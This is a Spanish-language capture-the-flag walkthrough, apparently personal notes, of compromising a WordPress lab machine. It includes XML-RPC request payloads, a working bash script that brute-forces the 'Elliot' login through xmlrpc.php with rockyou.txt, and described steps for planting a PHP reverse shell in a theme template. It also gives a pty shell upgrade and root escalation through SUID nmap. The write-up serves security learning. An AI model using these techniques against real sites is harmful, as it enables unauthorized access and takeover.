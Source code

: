Hacemos el reconocimiento con nmap:
![[Pasted image 20230419170126.png]]
Y esta es la web que corre por el puerto 80:
![[Pasted image 20230419170359.png]]
Y también vemos que el puerto 443 está abierto, por lo que funciona con HTTPS:
![[Pasted image 20230505122341.png]]
Vamos a haer fuzzing, y podemos encontrar directorios web típicos de wordpress como el wp-content o license:
![[Pasted image 20230505130753.png]]
Entramos en el directorio de license, y abajo del todo nos encontramos con una contraseña en base64:
![[Pasted image 20230505130839.png]]
La decodificamos:
![[Pasted image 20230505130912.png]]
Vemos también que se trata de wordpress, por lo que yo se que hay un directorio que será el de wp-admin, por lo que probamos y funciona:
![[Pasted image 20230505123239.png]]
Y vemos que si ponemos un usuario que no existe, no va a funcionar, pero en cambio si ponemos un usuario que sí existe nos dice que la contraseña no es correcta, pero que el usuario sí, por lo que ya sabemos que el usuario es Elliot:
![[Pasted image 20230505123413.png]]
Vemos que si ponemos estas credenciales, ya estamos dentro:
![[Pasted image 20230505131025.png]]
No obstante, también podríamos hacer un ataque de fuerza bruta al fichero xmlrpc.xml. [[conocimiento/TI/Hacking/Hacking Generico/Hacking Web/Hacking WordPress|Hacking WordPress]] de esta forma, por lo que primero lo enumeramos en el navegador:
![[Pasted image 20230505125232.png]]
Vamos a hacerle una petición por POST y veremos que funciona correctamente:
![[Pasted image 20230505125413.png]]
Y ahora que vemos que existe este fichero, buscamos en google como explotar vulnerabilidades haciendo uso de este fichero:
![[Pasted image 20230421133725.png]]
Y nos dicen que tenemos que tramitar esto:
![[Pasted image 20230421133752.png]]
```php
<?xml version="1.0" encoding="utf-8"?> 
<methodCall> 
<methodName>system.listMethods</methodName> 
<params></params> 
</methodCall>
```
Por tanto pegamos este código en un fichero xml:
![[Pasted image 20230421133907.png]]
Y ahora este fichero lo tramitamos por POST contra el xmlrpc de wordpress y vemos que funciona:
![[Pasted image 20230505125633.png]]
Pero este es el más importante, porque aquí es donde podemos hacer el ataque de fuerza bruta:
![[Pasted image 20230505125655.png]]
Y podemos volver a editar el fichero xmlrpc pero esta vez añadiendo unas credenciales y veremos a ver qué nos muestra:
```php
<?xml version="1.0" encoding="UTF-8"?>
<methodCall> 
<methodName>wp.getUsersBlogs</methodName> 
<params> 
<param><value>\{\{your username\}\}</value></param> 
<param><value>\{\{your password\}\}</value></param> 
</params> 
</methodCall>
```
![[Pasted image 20230505131241.png]]
Donde vemos que nos indica que las credenciales son correctas:
![[Pasted image 20230505131319.png]]
En este punto podríamos hacer un ataque de fuerza bruta contra este login utilizando el siguiente script:
```php
#!/bin/bash

function salir() {
    exit 1
}

trap salir SIGINT

for i in $(cat rockyou.txt); do
    variable=$(cat <<FIN
<?xml version="1.0" encoding="UTF-8"?>
<methodCall> 
<methodName>wp.getUsersBlogs</methodName> 
<params> 
<param><value>Elliot</value></param> 
<param><value>$i</value></param> 
</params>     
</methodCall>
FIN
    )

    echo -e "$variable" >> enviar.xml
    echo -e "[+] Probamos con la contraseña $i"

    curl -s -X POST 'http://10.10.126.89/xmlrpc.php' -d@enviar.xml >> log.log

    if [ ! "$(cat log.log | grep 'Incorrect username or password.')" ]; then
         echo -e "[+] La contraseña para Elliot es $i"
         exit 0
    fi

    sleep 1

rm log.log enviar.xml

done
```
![[Pasted image 20230421143424.png]]

-------------------------------------------------------------

Una vez dentro de la máquina, podemos ir a la parte de appearence e ir a la parte de editor, para ediutar las distintas plantillas de la web:
![[Pasted image 20230506090051.png]]
Y ahora en github buscamos el código de cómo generar un php malicioso que nos proporcione una reverse shell:
![[Pasted image 20230506090127.png]]
Copiamos el contenido de este documento en la plantilla de 404 error found:
![[Pasted image 20230506090157.png]]
Y ahora si nos ponemos en escucha con netcat y ponemos alguna url errónea en el buscador, habremos recibido la reverse shell:
![[Pasted image 20230506090226.png]]
![[Pasted image 20230506090236.png]]
Una vez dentro, nos encontramos con este archivo:
![[Pasted image 20230506092540.png]]
El cual podemos pasarlo por john the ripper o por crackstation, donde vamos a obtener una contraseña:
![[Pasted image 20230506092608.png]]
Ahora, si intentamos cambiar de usuario empleando estas credenciales, nuevamente tenemos el problema de que la consola nos cierra la posibilidad de introducir datos, imposibilitando el poder realizar cualquier acción.
![[Pasted image 20230506095346.png]]
No obstante, podemos ejecutar un comando de Python para arreglar este problema, donde nos vamos a ganar una bash un poco más funcional donde sí podremos poner la ocntraseña del usuario robot; y el comando es este:
```python
python -c "import pty;pty.spawn('/bin/bash')"
```
![[Pasted image 20230506095546.png]]
Una vez siendo este usuario, podemos ver los permisos SUID, donde vemos que podemos ejecutar nmap:
![[Pasted image 20230506095752.png]]
Y lo interesante es que nmap tiene un modo interactivo, donde podemos ejecutar comandos; y como podemos ejecutar nmap como root, ya seremos usuarios root de esta forma:
![[Pasted image 20230506095901.png]]
En cuanto a la primera flag, está dentro del directorio web de robots.txt:
![[Pasted image 20230506100158.png]]

